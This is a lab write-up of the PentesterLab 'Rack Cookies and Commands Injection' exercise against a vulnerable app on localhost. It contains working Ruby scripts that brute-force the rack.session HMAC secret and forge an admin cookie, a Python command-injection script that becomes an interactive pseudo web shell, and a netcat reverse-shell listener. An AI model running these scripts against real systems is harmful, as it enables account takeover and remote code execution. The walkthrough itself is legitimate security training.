# Rack Cookies And Commands Injection

## Prerequisites

- [Penterset Lab iso of the vulnerable web application](https://pentesterlab.com/exercises/rack_cookies_and_commands_injection/attachments) 

## Target

The goal of this exercise is to gain command execution on a server through privilege 
escalation and cookie tampering. This attack will be conducted in 5 stages. First 
we will perform 'Discovery and Scanning' to investigate possible attack vectors and 
fingerprint the servers tooling. Next we will brute force the authentication page to 
get a cookie issued to us. Then we will reverse-engineer and tamper with the rack cookie to gain Administrator privileges. Lastly, through the administrator interface we will attempt to 
gain command execution on the server. For these notes, the vulnerable site is located at 
`localhost:8000`. 

## Discovery and Scanning

The first step for any exploit is to examine the vulnerable site and gather information about it. 
First let's open the site in our browser and examine the source code. 



Looks like the login form sends a `POST` request to the `/login` endpoint with the 2 parameters, `login` and `password`. Next, let's examine the HTTP response headers to get an 
idea of what type of applicaiton the server is running. We can do this a variety of tools, including the browsers dev tools. I'm going to use netcat.



First thing I notice is that server responds with a status code `302 Found` and redirects us to `/login`. We can also see that the web server is running `Phusion Passenger v3.0.12` on 
`Apache v2.2.16`. A quick google search of `Phusion Passenger` reveals:
>Phusion Passenger is a free web server and application server with support for Ruby, Python and Node.js. It is designed to integrate into the Apache HTTP Server or the nginx web server, but also has a mode for running standalone without an external web server 

(source: wikipedia). 

Another great tool to use during our information gathering phase is [Nikto](https://cirt.net/Nikto2). Nikto is a command-line web server vulnerability scanner that can reveal possible attack vectors for your exploit. Below we use it to scan our vulnerable site. 



Nikto revelaled a lot of interesting tidbits, however for now we're just going to 
try and brute force the authentication page and then poke around. 


## Brute Forcing The Authentication Page

Because the web server seems to allow for an infinite number of login attempts we can simply 
brute force the page with a 'dictionary attack`.

Strategy, use a good dictionary of common credentials to send build a myriad of requests to send the login page and evaluate the response. I'm going to use a fairly small dictionary of 
common credentials I found [here](https://github.com/danialmiessler/SecLists/). 

Next you'll need to either write your own brute-force script or use a popular utility like 
[patator](https://github.com/lanjelot/patator). I wrote my own script and you can see below that after combining it my dictionary I was able to authenticate with the credentials `test:test`.



If you wanted to use patator you can achieve the same result with the command in the 
screenshot below. 



## Results of Brute Force

When we login with the credentials `test:test` we're redirected to the root page where there's really nothing for us to interact with. However, checking the response headers reveals
that we were issued a cookie named `rack.session`.



We'll want to try and reverse-engineer this cookie so let's copy it into a local file. 



A simple google search of `rack.session` reveals a lot of information about how this cookie is issued. 




The `rack` cookie is a base64 encoded marshalled object. I.E. It's a ruby object that has been serialized with marshal (Like pickle for python), and then base64 encoded. Furthermore, the cookie can be signed with a secret key to check for data integrity. Each of these operations are invertible so we may be able to reverse engineer the cookie and see what was encoded. 

## Reverse Engineer the Rack Cookie

Goal: Reverse Engineer the Rack cookie into a Ruby object that we can inspect. This object 
will likely contain data fields that the web application uses. By modifying the object 
and then serializing it back into a cookie we may be able to elevate our privileges

First, let's examine the [source code](https://github.com/rack/rack/blob/master/lib/rack/session/cookie.rb) to gather information on how to reverse engineer 
the cookie. 



Encoding methods are done with Marshal and then Base64



Above is the constructor for the cookie. It looks like there are 3 instance variables, `@secrets`, `@hmac`, and `@coder`. The hmac (hashed message authentication code) is used 
to verify the data integrity and authenticity of the cookie. It looks like it is generated with the `OpenSSL:Digest::SHA1` encryption scheme. 



Looking at the `generate_hmac` function it looks like it is done by using SHA1 to hash the secret word along with the cookie data which is the base64, marshalled object. 

With this information in hand, let's try to reverse the operations used to encode our cookie. 



Source code for first attempt to decode cookie and result from running is below



Ruby expects a class/module `User` to be defined. To fix, let's
define a stub. 



Now we're getting a different error. Missing a class DataMapper.



Researching DataMapper reveals it's a database abstraction library for Ruby. So we can import it into our script



May require running the following command:

```
gem install data_mapper
gem install dm-sqlite-adapter
```

Still getting errors after adding `data_mapper`, this one however reveals the back 
end database the web server is running. Solution is the same, add it to our script.



Researching this error leads to the conclusion that DataMapper can't find the 
adapter for the database. Solution is to create a default adapter for it to connect to.

```
DataMapper.setup(:default, 'sqlite3::memory')
```
Fixing all the errors we can finally deserialize the object and print it. 



## Modifying the Cookie

Strategy, take our deserialized object, change the `admin` field to 
true, then re-encode the object and use the new cookie value. 

Adding the following lines to our script will encode the cookie for us.

```ruby
class User
    attr_accessor :admin
end

def encode_object(obj)
    obj["user"].admin = true
    encoded = URI.encode(Base64.encode64(Marshal.dump(obj)))
    puts(encoded)
end
```



However, replacing our cookie with this new result will log us out. The 
new cookie is rejected since the cookie was not signed with the same 
secret data the server used.

Let's examine how the session unpacks our data from the cookie. 



It splits the cookie at the `--` delimiter, with the cookie value (left paft) containing 
the session data as we've seen. The right value is the digest, I.E. the HMAC that was 
generated using the `session_data` and the secret key. rack will then set the 
`session_data` to nothing unless the digests match. 




We can use this validation process to brute force the secret key by using source code of the rack library to check against a valid cookie with a dictionary of words. Since the server returned to us a cookie, by definition it is valid so we'll use that for our script.

```ruby
require 'uri'
require 'openssl'

# Copied from https://github.com/rack/rack/lib/rack/session/cookie.rb
def generate_hmac(data, secret)
    OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
end

def find_secret(cookie, words)

    data, signature = cookie.split('--', 2)

    data = URI.decode(data)

    for word in words
        if generate_hmac(data, word) == signature
            return word
        end
    end
    return nil
end

def main

    if ARGV.length != 2
        puts('usage: find-secret <cookie> <wordlist>')
        return 1
    end

    cookies = IO.readlines(ARGV[0], chomp: true)
    words   = IO.readlines(ARGV[1], chomp: true)

    for cookie in cookies
        secret = find_secret(cookie, words)
        if secret.nil?
            puts('find-secret: Brute force failed. Try a different dictionary or check your cookie')
        else
            puts('Secret found: ' + secret)
        end
    end
    return 0
end

main
```

Running this with our wordlist and cookie from the server we get:



Now that we have the secret, we can go ahead and sign our modified cookie and try to 
get administrator privileges.

Modified `tamper-cookie.rb` program

```ruby
require 'pp'
require 'uri'
require 'base64'
require 'openssl'
require 'data_mapper'

DataMapper.setup(:default, 'sqlite3::memory')

class User
    attr_accessor :admin
end

def encode_object(obj, secret)

    obj["user"].admin = true

    data = Base64.encode64(Marshal.dump(obj))

    signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)

    # URI encode doesn't encode '=' character
    return URI.encode(data).gsub("=", "%3D")+"--"+signature
end

def decode_cookie(c)
    cookie = c.split("--")

    # Undo URL encode then base64 decode
    decoded = Base64.decode64(URI.decode(cookie[0]))

    begin
        obj = Marshal.load(decoded)
        puts("Decoded Cookie:\n")
        return obj
    rescue ArgumentError => err
        puts "( ERROR ) decode-cookie: " + err.to_s
    end
end

def main

    if ARGV.length != 2
        puts('usage: tamper-cookie <file> <secret>')
        return 1
    end

    cookies = IO.readlines(ARGV[0], chomp: true)

    for cookie in cookies

        obj = decode_cookie(cookie)
        puts("Decoded Cookie:\n")
        pp obj

        new_cookie = encode_object(obj, ARGV[1])
        puts("\nTampered Cookie:\n")
        puts(new_cookie)
    end
    return 0
end

main
```


Using a new cookie we can now elevate ourselves to administrator privileges.


## Administrator Panel Probing

It looks like we have three new endpoints we can explore.
`/delete`, `/edit`, and `/new`. 

Attempting to create or edit entries with a single-quote causes the
server to respond with an `invalid data provided` error.



Likely some sort of regex filter is preventing us from injecting
commands. However a common problem with regex in ruby is that it is
multi-line by default. So, let's try injecting commands after a newline. 

The browser isn't properly url-encoding our newline. `\n` results 
in a url-encoded backslash followed by an `n` and `%0A` results in a url-encoded `%` followed by `0A`. We'll have to write a script
to run the request properly. 




Here's our first attempt at to see if there exists a command injection vulnerability. We inject `sleep 5` after a newline in the ip parameter to 
get the server to wait 5 seconds before sending us a response. If a delay 
occurs then we know we have command injection. 

```python
#!/usr/bin/env python3

"""usage: cmd-injection.py <admin-cookie>

Script will attempt to execute a command injection against the 
vulnerable site provided in the pentester labs 'rack cookie and 
command injection' lab. Requires an authenticated admin cookie
to work properly. 
"""

import sys
import requests

URL = 'http://localhost:8000/'

def inject_command(cookie):

    admin_cookie = { 'rack.session' : cookie }

    payload = { 'id'   : '1'
              , 'name' : 'webmail'
              , 'ip'   : '192.168.3.10\n`sleep 5`'
              , 'ttl'  : '600'
              }

    resp = requests.post(URL + '/update', cookies=admin_cookie, data=payload)

    print(resp.text)

def help():
    print(__doc__, file=sys.stderr)
    exit(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        help()

    with open(sys.argv[1]) as file:
        cookie = file.read().rstrip()

        inject_command(cookie)

```

The server delayed in our response. Let's parameterize the command 
in our script and try to get the results of `pwd`.

Running our script with the `pwd` command resulted in a this response:

```html
<div class="alert-message error">
incorrect section name: &#x2F;var&#x2F;www
syntax error
</div>
```

So now we know we're in the `/var/www/` folder in the server. However when we 
do `ls` or anything wil multile lines of output we're gonna be limited 
to seeing only the first thing. So let's try to output the results of the 
command into a publicly reachable file then pull down that file and print it. 

First, we need to find out where the public files are stored. We know we can 
pull down the style sheets no problem, so we should output the results into the same folder. 



Usually they're stored in the `public/` folder. Running our script with 
`ls public/` returns us the file we wanted. So lets output our results into 
the public folder and also make the program interactive. 

After refactoring and cleaning up this is the final exploit script.

```python
#!/usr/bin/env python3

import sys
import bs4
import requests

OUTPUT_FILE = '.keep'
OUTPUT_PATH = '/var/www/public/'
URL = 'http://localhost:8000/' 

def inject_command(cookie, command):

    admin_cookie = { 'rack.session' : cookie }

    output = OUTPUT_PATH + OUTPUT_FILE

    payload = { 'id'   : '1'
              , 'name' : 'webmail'
              , 'ip'   : f'192.168.3.10\n`{command} > {output}`'
              , 'ttl'  : '600'
              }

    resp = requests.post(URL + '/update', cookies=admin_cookie, data=payload)

    # Undo update
    payload['ip'] = '192.168.3.10'
    requests.post(URL + '/update', cookies=admin_cookie, data=payload)

    return resp

def get_result():
    return requests.get(URL + OUTPUT_FILE).text

def run_shell(cookie):
    while(True):
        cmd = input("cmd> ")

        resp = inject_command(cookie, cmd)

        soup = bs4.BeautifulSoup(resp.text, 'html.parser')

        if '\nInvalid data provided' in soup.find('div', {"class": "alert-message error"}):
            print("( ERROR ): Failed to process command")
        else:
            print(get_result())

def help():
    print(__doc__, file=sys.stderr)
    exit(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        help()

    command = ' '.join(sys.argv[2:])

    with open(sys.argv[1]) as file:
        cookie = file.read().rstrip()

        run_shell(cookie)
```

Running this program we can get a interactive psuedo-web-shell. 



However, this shell has some limitations. Namely we can't `cd` and other stuff
so lets setup a reverse web-shell. 

## Setting up Reverse-Shell
Since firewalls are more likely to filter inbound traffic than outbound traffic, it's a more likely that a reverse shell will work. 

Our host machine will act as the server and listen for a connection on a port. 
```bash
sudo nc -nvlp 5555                                               
Listening on [0.0.0.0] (family 2, port 5555)
Listening on 0.0.0.0 5555
```

-n option says 'Do not do any DNS or service lookups on any specified addresses, hostnames or ports'. Which can speed up execution time.

-v is for a verbose output

-l Specifies nc to listen for an incoming connection. 

-p Specifies the source port nc should use. 

Now use our exploit script to direct the remote to push a shell to us. 





And we're connected! From here there's a lot of nefarious activities you can 
conduct, however we'll finish this exploit here. 
